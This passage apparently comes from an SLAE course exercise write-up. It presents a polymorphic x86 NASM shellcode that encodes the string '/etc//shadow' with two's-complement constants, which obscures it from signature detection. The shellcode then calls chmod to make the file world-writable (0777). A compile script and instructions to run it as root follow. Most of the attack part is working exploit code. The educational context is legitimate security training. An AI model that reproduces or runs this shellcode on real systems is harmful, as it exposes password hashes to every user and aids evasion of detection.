 
``Original shellcode disassembled``

To apply polymorphism to this shellcode and maintain a good size (not bigger than 150%), the two's complement method has been applied.

````
; Filename: poly_shellcode_593.nasm
; Author:  Samuel Dugo
; SLAE-ID:    SLAE-1376
; Size:       42 bytes (144%)
; Purpose: Polymorphic version of shellcode found on http://shell-storm/shellcode/files/shellcode-593.php 

global _start			

section .text
_start:
	xor    eax,eax
	push   eax		;adds null terminator
        mov    ecx,0x88909B9F  ;complement of 0x776f6461 "woda"
        neg    ecx
	push   ecx
	mov    ecx,0x978CD09D  ;complement of 0x68732f63 "hs/c"
        neg    ecx
	push   ecx
        mov    ecx,0x8B9AD0D1  ;complement of 0x74652f2f "te//"
	neg    ecx
        push   ecx
	mov    ebx,esp
        add    al,0xff
        add    ah,0x1
        mov    ecx,eax         ;ecx contains 511 to change /etc/shadow to 0777
	sub    ax,0x1f0        ;eax contains 0xf for syscall sys_chmod (0x0f)
	int    0x80
````
``Code for poly_shellcode_593.nasm``

Then, it is necessary to compile the file using the following bash script.
````
#!/bin/bash
#Example of execution: ./compile.sh poly_shellcode_593

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

After that, it is possible to execute the shellcode and verify that */etc/shadow* does change its permission after execution using a *root/sudo* user.
